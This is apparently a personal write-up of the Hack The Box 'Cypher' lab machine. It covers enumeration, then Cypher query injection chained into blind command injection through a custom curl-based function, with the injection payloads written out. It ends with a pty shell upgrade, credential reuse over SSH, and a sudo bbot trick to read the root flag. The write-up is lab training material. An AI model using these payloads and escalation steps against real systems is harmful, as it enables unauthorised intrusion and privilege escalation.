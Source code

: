 ```yaml
---
title: "Cypher -HTB"
date: 2025-04-19 14:00:00 +0200
categories: [HTB]
tags: [linux, privilege escalation, initial access, cypher]
toc: true
comments: true
image: ./assets/img/attachments/cypher1.png
---
```



> 🧠 It's the beginning of the journey.

This is **Machine 1 of 1000** — part of my mission to become a stronger red teamer by solving and documenting every challenge I encounter.

In this writeup, I’ll walk you through how I rooted the **Cypher** machine from Hack The Box, explaining each step from enumeration to exploitation.
### Full port scanning
The first step is to perform a full scan using Nmap to identify open ports and services. However, since a full scan can take a long time, we can start by using the `-F` flag to scan the 1,000 most common ports. Until the full scan finishes.
``` shell
sudo nmap 10.10.11.57 -F -Pn -T5 -sV 
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher2.png)

from here we get that http post is open, so next step is to check this website. BUT accessing the ip from browser alone wont work, since the ip must be added to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher3.png)

Now that we got the domain name, lets add it to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher4.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher5.png)

This is how the webpage looked like, next step is content discovery for this domain, and until the fuzzing process is done i will test SQLi at this login form.
```shell
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher6.png)

I got this error which disclose that the database used is Neoj4, and a critical information, that the username is directly added to the cypher query without validations.

![Whatever Alt Text You Want](/assets/img/attachments/cypher7.png)

And fuzzing result shows this directory, so lets check what does it contains

![Whatever Alt Text You Want](/assets/img/attachments/cypher8.png)

Which look interesting, after downloading this jar file and extracted its content

![Whatever Alt Text You Want](/assets/img/attachments/cypher9.png)

found those classes and the suspicious one is CustomFunction

![Whatever Alt Text You Want](/assets/img/attachments/cypher10.png)

Since its compiled file and not human readable, I will use online decompiler to make it readable.

![Whatever Alt Text You Want](/assets/img/attachments/cypher11.png)

Here we can see the vulnerable point, where the url is inserted into the curl command without sanitization or validation beyond checking for http:// or https:// prefixes.

![Whatever Alt Text You Want](/assets/img/attachments/cypher12.png)

Exploiting this vulnerability in url didn't work 
### From this point we have two methods to gain the initial access:
**Method one**:

from the point that the username is inserted directly to the cypher query, we can create custom query, that ends the username field and call the vulnerable function getURLStatusCode
`"username":"') CALL getUrlStatusCode('http://127.0.0.1;whoami') // '"`

![Whatever Alt Text You Want](/assets/img/attachments/cypher13.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher14.png)

its important here to keep in mind the response time.

![Whatever Alt Text You Want](/assets/img/attachments/cypher15.png)

which proves the blind command injection vulnerability here.
```json
{"username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;sleep 10') YIELD statusCode AS value RETURN value; //",

"password":"admin"}
```
Now, its time to create the reverse shell payload, and setting a listener at the same time

![Whatever Alt Text You Want](/assets/img/attachments/cypher16.png)

whow!! Worked!

![Whatever Alt Text You Want](/assets/img/attachments/cypher17.png)

and we got our initial access

**Method 2**:

![Whatever Alt Text You Want](/assets/img/attachments/cypher18.png)

Taking the machine as hint, we find that the endpoint /cypher is exposed, and as showen in the image, there is a missing parameter for it called query, so would query work as our vulnerable point?

![Whatever Alt Text You Want](/assets/img/attachments/cypher19.png)

lets craft the payload passed on cypher syntax

![Whatever Alt Text You Want](/assets/img/attachments/cypher20.png)

This is the indication that this is an injectable parameter for us, next step is to exploit it using the vulnerable class mentioned before.

`/api/cypher?query=CALL%20custom.getUrlStatusCode('http://127.0.0.1;id')`

![Whatever Alt Text You Want](/assets/img/attachments/cypher21.png)

And done! back to the initial access part:
To make the shell mor usable and interactive

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![Whatever Alt Text You Want](/assets/img/attachments/cypher22.png)

Here we find a saved credentials at this file so lets do password spraying here!

![Whatever Alt Text You Want](/assets/img/attachments/cypher23.png)

Using the found password we gained access using ssh as graphasm user.

## Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cypher24.png)

This user has a root privilage on bbot, which is a tool as we see

![Whatever Alt Text You Want](/assets/img/attachments/cypher25.png)

Next step is either to use it to execute different commands, or to read the root.txt file with it

`sudo /usr/local/bin/bbot -cy /root/root.txt --debug 2>&1 | tee output.log
`
![Whatever Alt Text You Want](/assets/img/attachments/cypher26.png)

We were able to read the root content file using yara rules, and ROOTED!!

